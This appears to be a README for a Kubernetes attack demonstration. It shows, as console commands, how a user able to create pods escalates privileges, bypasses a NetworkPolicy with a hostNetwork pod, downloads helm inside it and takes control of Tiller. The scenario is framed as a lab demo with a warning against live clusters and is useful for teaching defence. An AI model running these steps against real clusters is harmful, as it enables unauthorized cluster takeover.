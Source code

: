 # Privilege escalation 
This scenario demonstrates the potential for privilege escalation and network policy bypass by a malicious insider or compromise of their credentials with the ability to create pods in a namespace leading to full cluster access.

## Demo
[![asciicast](https://asciinema.org/a/293454.svg)](https://asciinema.org/a/293454)

NOTE: This scenario will run container with root access, and it set for demo purposes only. We strongly recommend **NOT RUNNING IT ON A LIVE CLUSTER**

## pre-requisites 
Make sure your cluster is setup following the [instructions here](../env/README.md)

## Lets Hack it

### Setup and install the RBAC and Network policy

1. apply the network policy and RBAC rules 
```console
kubectl apply -f privilege-escalation/daemonset.yaml
```
2. Test the access to the system 
```console
kubectl auth can-i --as demo@example.com create pods -n kube-system
kubectl auth can-i --as demo@example.com create pods -n default
```
### Deploy sample pod to test the access
1. Deploy a simple pod
```console
kubectl --as demo@example.com apply -f privilege-escalation/simplepod.yaml
```
2. Get a shell in the pod:
```console
kubectl --as demo@example.com exec -it simplepod -- /bin/sh
```
3. Attempt to reach tiller directly:
```console 
wget -qO - tiller-deploy.kube-system:44134
exit
```

### Bypass NetworkPolicy

1. Deploy a hostnetwork pod that bypasses network egress policy on the namespace.
```console
kubectl --as demo@example.com apply -f privilege-escalation/hostnetwork.yaml
```
2. Exec in, download the helm client binary and run `helm ls` to show that it can control Tiller.

```console
kubectl --as demo@example.com exec -it hostnetwork -- /bin/sh
```
```console
export PATH=/tmp:$PATH; cd /tmp; wget -qO helm.tar.gz https://get.helm.sh/helm-v2.16.1-linux-amd64.tar.gz; tar zxvf helm.tar.gz; chmod +x linux-amd64/helm; cp linux-amd64/helm .
```
```console
export HELM_HOST=tiller-deploy.kube-system.svc.cluster.local:44134; helm version
exit
```


## Cleanup
To cleanup run 
```console
kubectl delete -f privilege-escalation/
```